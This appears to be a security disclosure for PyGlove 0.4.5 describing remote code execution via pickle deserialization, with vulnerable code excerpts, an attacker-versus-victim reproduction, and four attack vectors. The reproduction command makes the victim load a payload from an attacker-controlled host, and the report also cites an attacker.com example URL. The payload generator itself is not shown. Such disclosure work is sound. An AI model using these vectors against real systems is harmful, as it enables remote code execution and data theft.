




# `PyGlove` - Version `0.4.5` / Remote Code Execution (RCE) via Insecure Deserialization

* https://github.com/google/pyglove

## Introduction

**Usually, insecure deserialization vulnerabilities using `pickle` are related to the deserialization of a `.pkl` file (among others), which turns the vulnerability into a sort of out-of-scope "self-command-injection".**

**However, below are one (1) PoC to reproduce RCE in `PyGlove` using a remote `API JSON` URL controlled by an attacker, without local intervention by a third party to modify files that allow code execution during the deserialization process.**

**For this PoC, two (2) different devices were used to simulate the interaction between an attacking machine (Raspberry Pi with IP 192.168.1.90) and a victim machine (Windows with IP 192.168.1.88).**

## Vulnerability description

PyGlove is vulnerable to multiple instances of Insecure Deserialization leading to Remote Code Execution (RCE). The framework relies on the `pickle` module to handle complex object types and inter-process communication results. These vulnerabilities are particularly severe because they can be triggered through high-level symbolic loading functions (`pg.load`, `pg.from_json`) that are commonly exposed to external data sources or remote URIs.
### The vulnerable code in `pyglove/core/utils/json_conversion.py`:

The `_OpaqueObject` class is designed to handle arbitrary Python objects within JSON structures by using `pickle` as a bridge. This implementation directly calls `pickle.loads` on base64-encoded strings provided in the JSON input.

```python
class _OpaqueObject(JSONConvertible):
  ...
  def decode(self, json_value: JSONValueType) -> Any:
    assert isinstance(json_value, str), json_value
    try:
      # INSECURE: Directly calls pickle.loads on the decoded base64 string
      return pickle.loads(base64.decodebytes(json_value.encode('utf-8')))
    except Exception as e:
      raise ValueError('Cannot decode opaque object with pickle.') from e
```

Additionally, `pyglove/core/coding/execution.py` contains a critical sink in the `sandbox_call` function:

```python
def sandbox_call(func: Callable[..., Any], ...) -> Any:
    ...
    # INSECURE: Receiving results from a subprocess and deserializing them
    result = pickle.loads(result_from_subprocess)
    return result
```

## Technical Impact Analysis

### Project Purpose & Context

PyGlove is a library for symbolic programming and meta-learning, widely used for defining search spaces in hyperparameter optimization (AutoML). It manages complex object hierarchies that need to be serialized and shared across different processes and nodes.

### Platform & Deployment Environment

The framework is typically deployed in large-scale machine learning clusters (e.g., Kubernetes, SLURM) and researchers' workstations. It relies on internal and external data sources (GCS, S3, HTTP) to load configurations and synchronize the state of distributed tuning trials.

### Comprehensive Risk Assessment

The vulnerability is **Critical**. The ability to trigger Remote Code Execution through JSON APIs and remote URIs breaks the trust boundary of the application. In distributed training settings, an attacker can move laterally from a compromised worker to the experiment controller, leading to complete infrastructure compromise and theft of model weights or sensitive training data.


## Attack Scenario

### Who wants to exploit a particular vulnerability?

Malicious actors targeting machine learning infrastructure, including industrial competitors, state-sponsored agents, or attackers seeking to compromise high-performance computing clusters (GPUs/TPUs) used for model training and deployment.
### For what gain?

To gain unauthorized access to proprietary model architectures and weights (IP theft), exfiltrate sensitive training datasets, hijack computational resources for cryptomining, or disrupt AI-powered production systems by injecting backdoors into the model's symbolic definition.
### In what way?

Through several identified remote vectors:
1.  **Remote Configuration Hijacking**: Providing a malicious URI (HTTP/S3/GCS) to a `pg.load` or `pg.open_jsonl` call.
2.  **JSON API Poisoning**: Injecting an `_OpaqueObject` into JSON data streams consumed by the target application.
3.  **Distributed State Poisoning**: Compromising shared storage backends to manipulate `Trial` metadata, targeting the experiment orchestrator.
4.  **Sandbox Escape**: Exploiting the insecure unpickling of subprocess results in `sandbox_call` to compromise the host process.
# Reproduction steps

## On the Raspberry (attacker) - IP 192.168.1.90

```
kw0@kw0l4b:~ $ hostname -I | awk '{print $1}'
192.168.1.90
kw0@kw0l4b:~ $
```

### 1. **Payload Generation on the Raspberry**:

Run the specialized `exploit.py` script to generate `malicious_config.json` file directly in the shared path:
    
```
python exploit.py
```
### 2. **Serve the API JSON on the Raspberry**:
    
```
python -m http.server 8000
```




## On Windows (victim) - IP 192.168.1.88

```powershell
PS L:\HTTP_Code_Filleter\OT2\pyglove> Get-NetIPAddress -AddressFamily IPv4 | Where-Object PrefixOrigin -eq "Dhcp" | Select-Object -ExpandProperty IPAddress
192.168.1.88
PS L:\HTTP_Code_Filleter\OT2\pyglove>
```

### 1.  **Create the virtual environment**:
`python -m venv .venv`

### 2.  **Activate the virtual environment**:
`.venv\Scripts\activate`

### 3.  **Install PyGlove and network dependencies**:

For PyGlove to handle the HTTP protocol via `fsspec`, it is necessary to install `fsspec` and its network engines (`requests` and `aiohttp`) along with the library:

`pip install fsspec requests aiohttp pyglove`

### 4.  **Trigger the RCE by invoking the remote JSON API**:

We invoke the remote JSON API controlled by the attacker from `http://192.168.1.90:8000/malicious_config.json`:

`python -c "import pyglove as pg; pg.load('http://192.168.1.90:8000/malicious_config.json')"`




# Other RCE vectors in `PyGlove` remotely controlled by an attacker

## 1. The I/O Abstraction Vector: URI support via `fsspec`

PyGlove does not limit its file loading operations (`pg.load`, `pg.open_jsonl`) to the local file system. Through integration with `fsspec` and the `_FsspecUriCatcher` component in `pyglove/core/io/file_system.py`, the framework supports URI schemes.

### The "Local Access" Bypass
- **Scenario**: An application that allows the user to configure the path of a "search space" or configuration file (e.g., `pg.load(user_config_path)`).
- **Exploitation**: An attacker can provide a remote path such as `http://attacker.com/malicious_config.json` or `s3://public-bucket/payload.json`. PyGlove will download the content and process it. If the JSON contains an object of type `_OpaqueObject`, the pickle payload will be executed automatically.
- **Impact**: Remote RCE without the need for the attacker to have prior access to the server where PyGlove is running.

## 2. The Universal Bridge: Injection of `_OpaqueObject` into JSON APIs

PyGlove uses a symbolic model where any object can be represented in JSON. The `pyglove.core.utils.json_conversion._OpaqueObject` class is specifically designed to wrap base64-pickled data within a JSON field.

### Breaking the user input
- **Vector**: Any REST API or service that uses `pg.from_json` to process user inputs.
- **Attack Path**: An attacker sends a legitimate JSON (e.g., a model parameter update) but injects an `_OpaqueObject` structure into a field that the schema allows as `Any`.
- **Analysis**: Many developers assume that JSON is a "safe" format against object deserialization attacks. PyGlove breaks this premise by providing an automatic pickle decoder embedded in JSON.

## 3. Poisoning of Distributed Tuning Studies

In hyperparameter optimization workflows (AutoML), PyGlove distributes work among multiple nodes that share the state through a persistent backend.

### Lateral Movement and Privilege Escalation
- **Vulnerability**: The `Trial` and `Measurement` objects defined in `pyglove/core/tuning/protocols.py` are symbolic objects that are frequently serialized/deserialized.
- **Scenario**: If the cluster uses a shared file system (NFS) or a cloud bucket to save the study history (`open_jsonl`).
- **Exploitation**: An attacker who gains access to a single worker or who can write to shared storage can "poison" the study file. When the master node (`controller`) or a new worker tries to "retrieve" the state (`recover` / `replay`), it will load the malicious `Trial` object and execute the attacker's code.

## 4. Sandbox Escape in `execution.py`

PyGlove offers a "secure" execution functionality in a sandbox (`pg.run(..., sandboxed=True)`).

### Isolation Failure
- **Vulnerability**: `sandbox_call` uses a subprocess to isolate suspicious code, but uses `pickle.loads` in the main process to receive the result.
- **By-pass**: The code running in the sandbox can simply return an object whose pickled representation is malicious. The orchestrator process, by trusting the sandbox's security, deserializes the result and is compromised.
- **Impact**: The sandbox becomes useless as a security measure against attackers seeking to compromise the orchestration infrastructure.